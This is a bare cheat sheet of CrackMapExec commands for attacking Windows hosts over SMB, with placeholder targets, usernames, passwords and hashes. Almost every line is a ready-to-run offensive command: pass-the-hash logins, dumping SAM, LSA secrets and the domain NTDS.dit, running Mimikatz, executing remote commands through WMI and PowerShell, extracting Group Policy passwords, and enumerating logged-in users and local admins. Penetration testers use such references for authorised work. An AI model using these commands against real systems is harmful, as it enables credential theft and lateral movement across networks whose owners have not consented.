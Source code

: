 - **SMB Login Check:**
  ```bash
  cme smb <target_ip> -u <username> -p <password>
  ```

- **Pass the Hash (PTH):**
  ```bash
  cme smb <target_ip> -u <username> -H <hash>
  ```

- **Pass the Password (PTP):**
  ```bash
  cme smb <target_ip> -u <username> -p <password> --local-auth
  ```

- **SAM Dump:**
  ```bash
  cme smb <target_ip> -u <username> -p <password> --sam
  ```

- **LSASS Dump:**
  ```bash
  cme smb <target_ip> -u <username> -p <password> --lsa
  ```

- **Dump NTDS.dit (Domain Controller):**
  ```bash
  cme smb <target_ip> -u <username> -p <password> --ntds
  ```

- **WMI Command Execution:**
  ```bash
  cme smb <target_ip> -u <username> -p <password> -x <command> --exec-method wmi
  ```

- **Mimikatz:**
  ```bash
  cme smb <target_ip> -u <username> -p <password> -M mimikatz
  ```

- **PowerShell Scripts:**
  ```bash
  cme smb <target_ip> -u <username> -p <password> -M powershell -o "COMMAND=<script>"
  ```

- **GPP Password Extraction:**
  ```bash
  cme smb <target_ip> -u <username> -p <password> --gpp-password
  ```

- **Enum Logged-in Users:**
  ```bash
  cme smb <target_ip> -u <username> -p <password> --loggedon-users
  ```

- **Enumerate Disks:**
  ```bash
  cme smb <target_ip> -u <username> -p <password> --disks
  ```

- **Enumerate Local Admins:**
  ```bash
  cme smb <target_ip> -u <username> -p <password> --local-admins
  ```

